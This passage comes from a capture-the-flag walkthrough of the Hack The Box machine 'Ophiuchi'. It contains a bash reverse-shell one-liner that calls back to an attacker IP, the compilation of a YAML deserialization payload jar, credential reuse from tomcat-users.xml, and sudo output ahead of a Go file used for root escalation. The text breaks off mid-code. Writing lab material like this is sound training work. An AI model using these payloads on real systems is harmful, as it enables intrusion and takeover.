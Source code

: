 ```java
    }
}
```

### Shell script
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.25/6868 0>&1
```

The commands to compile the Java code is below. After compiling the code we just need to move the compiled jar into the web server's root directory.

```bash
vi src/artsploit/AwesomeScriptEngineFactory.java
tc@ubuntu:~/htb/Ophiuchi/yaml-payload$ javac src/artsploit/AwesomeScriptEngineFactory.java
tc@ubuntu:~/htb/Ophiuchi/yaml-payload$ jar -cvf yaml-payload.jar -C src/ .
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1662) (out= 691)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1559) (out= 407)(deflated 73%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
```

## Getting User

At this point we have a shell on the box. Looking around I found the ```tomcat-users.xml``` file. In this file we can find the username and password to login to the Tomcat instance. Since the username of Tomcat matched that of the user on the box I tried to login to the admin user with the same password. This worked giving access to the admin user on the machine. 

## Getting root

Using the ```sudo -l``` command as admin we see that we can run go with a certain file. 

```bash
sudo -l
Matching Defaults entries for admin on ophiuchi:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin            

User admin may run the following commands on ophiuchi:
    (ALL) NOPASSWD: /usr/bin/go run /opt/wasm-functions/index.go
```

Here is the go file that we can run as root.

```go
package main

import (
        "fmt"
        wasm "github.com/wasmerio/wasmer-go/wasmer"
        "os/exec"
        "log"
)


func main() {
        bytes, _ := wasm.ReadBytes("main.wasm")

        instance, _ := wasm.NewInstance(bytes)
        defer instance.Close()
			init := instance.Exports["info"]
```